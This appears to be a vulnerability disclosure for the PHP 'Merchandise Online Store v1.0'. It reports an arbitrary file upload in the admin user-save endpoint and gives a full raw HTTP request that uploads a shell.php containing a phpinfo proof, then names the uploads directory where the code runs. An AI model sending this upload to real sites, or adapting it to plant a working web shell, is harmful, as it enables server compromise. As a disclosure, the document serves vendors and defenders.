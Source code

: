 # Merchandise Online Store v1.0 by oretnom23 has arbitrary code execution (RCE)
vendor: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability url: http://ip/vloggers_merch/admin/?page=user

Loophole location： There is an arbitrary file upload vulnerability (RCE) in the user profile upload point in the system information.

Request package for file upload：

```sql
POST /vloggers_merch/classes/Users.php?f=save HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=user
Content-Length: 728
Content-Type: multipart/form-data; boundary=---------------------------972285327633
Cookie: PHPSESSID=ikts6n5evd3ahejiopufg6114g
Connection: close

-----------------------------972285327633
Content-Disposition: form-data; name="id"

1
-----------------------------972285327633
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------972285327633
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------972285327633
Content-Disposition: form-data; name="username"

admin
-----------------------------972285327633
Content-Disposition: form-data; name="password"

admin123
-----------------------------972285327633
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------972285327633--
```

The files will be uploaded to this directory \vloggers_merch\uploads

![image](https://user-images.githubusercontent.com/104813753/166432810-06c5a0bd-7983-4e0f-83c0-8e286cf7e4c4.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/104813753/166432922-c3935ac1-b403-4934-a7dd-0251b571540e.png)

